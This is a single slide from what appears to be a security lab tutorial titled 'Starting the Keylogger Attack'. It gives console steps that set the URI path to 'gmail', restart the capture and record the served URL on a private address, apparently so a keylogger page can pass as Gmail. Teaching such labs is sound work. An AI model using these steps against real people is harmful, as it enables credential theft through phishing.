

# Starting the Keylogger Attack
Break/Stop the server by pressing CTRL+C
Now, set the URI path the “gmail”:
set URIPATH gmail
Run the capture again:
run
Write down the URL the server is currently using. It should look like the following:
http://10.1.57.93:1717/gmail